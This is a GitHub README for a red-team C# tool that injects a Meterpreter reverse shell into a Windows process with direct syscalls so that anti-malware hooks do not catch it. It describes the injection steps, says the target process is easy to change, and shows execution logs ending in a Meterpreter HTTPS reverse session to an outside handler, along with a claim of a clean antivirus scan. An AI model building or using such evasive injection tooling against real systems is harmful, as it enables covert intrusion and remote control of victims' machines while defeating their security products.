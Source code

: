 # SysCalls
An example of using Windows System Calls (syscalls) in C# to inject a meterpreter shell.

# Introduction
This code is based on the excellent [Red Team Tactics: Utilizing Syscalls in C#](https://jhalon.github.io/utilizing-syscalls-in-csharp-1/) primer by **Jack Halon**, explaining the use of 'System Calls in windows malware for post-exploitation activities, as well as for the bypassing of EDR or Endpoint Detection and Response'. I recommend reading it, it's not an easy subject, but well worth the effort!

Some anti-malware products, such as Bit Defender inject user mode hooks in `ntdll.dll` when new processes are created. This means that whenever APIs such as `NtCreateThreadEx` are called in `ntdll.dll` Bit Defender intercepts the call, does its scanning, then returns execution to the thread (or more likely if there is a meterpreter payload, spoils the fun and kills the process).

If we use syscalls directly we can avoid the hooks, and effectively bypassing the anti-malware scan.

I updated the code to include dynamic syscall resolution, based upon the article [Dynamically resolving syscalls in C#](https://fgsec.net/posts/Dynamically-resolving-syscalls-in-CSharp/) by **FGSec**.

# Codez
If you just want to dig in to the code, go here:

[Native.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Native.cs) - Native imports/structs from Win32 APIS

[Syscalls.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Syscalls.cs) - The sycall implementation.

[Program.cs](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Program.cs) - The main routine.


# Important
~~Syscall codes can and do change between operating systems. You must change the the codes in the [Syscalls class](https://github.com/plackyhacker/SysCalls/blob/main/SysCall/Syscalls.cs) to match those of your target.~~ Dynamically resolving syscalls fixes this.

Remember, the code looks for an instance of notepad to inject into, it is trivial to change this, or even spawn a surregate process to inject in to.

# Example
Execution of the code is shown below:

```
[+] Base Address of ntdll is 0x7FFE23450000
[+] Target PID is 40140
[+] Syscall NtOpenProcess on 40140
[+] Return, NTSTATUS=Success, hProcess=0x2F4
[+] Syscall NtAllocateVirtualMemory on 0x2F4
[+] Return, NTSTATUS=Success, baseAddress=0x1D2A9120000
[+] Syscall NtWriteVirtualMemory to 0x1D2A9120000
[+] Return, NTSTATUS=Success, bytesWritten=0x736
[+] Syscall NtProtectVirtualMemory on 0x1D2A9120000
[+] Return, NTSTATUS=Success
[+] Syscall NtCreateThreadEx to 0x1D2A9120000
[+] Return, NTSTATUS=Success, hThread=0x896
```

And the meterpreter shell:

```
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: bprg2hzm) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:58551) at 2021-10-05 12:53:47 +0100
```

# AV Scan Results

The binary was scanned using [antiscan.me](https://antiscan.me/scan/new/result?id=2kut9uVkyXQW) on 05/10/2021.

![AV Scan](https://github.com/plackyhacker/SysCalls/blob/main/Syscall_scan.png?raw=true)

# Notes

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19042) with Defender.
